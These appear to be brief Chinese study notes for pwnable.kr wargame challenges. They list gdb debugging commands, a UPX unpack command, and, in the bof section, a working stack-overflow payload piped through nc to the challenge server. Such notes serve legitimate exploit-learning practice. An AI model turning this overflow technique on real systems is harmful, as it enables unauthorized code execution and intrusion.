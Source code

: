 # pwnable.kr

## fd

## collision

## bof

-   动态调试
    -   设置断点: `b main`
    -   开始运行: `r`
    -   单步调试: `n`
    -   单步步入：`s`
    -   创建一个64字节的测试 payload: `pattern create 64`
    -   查看目标地址: `p $ebp+0x8`
    -   查看地址状态: `telescope 25`
    -   故构造payload: `(python -c 'print "A" * 52 + "\xbe\xba\xfe\xca"'; cat -) | nc pwnable.kr 9000`
-   静态调试
    -   `s=$esp+1ch`
    -   `a1=$esp+50h`
    -   `payload = 'j' * 52 + p32(key)`

## flag

-   `upx -q -d flag -ofalg_upx`
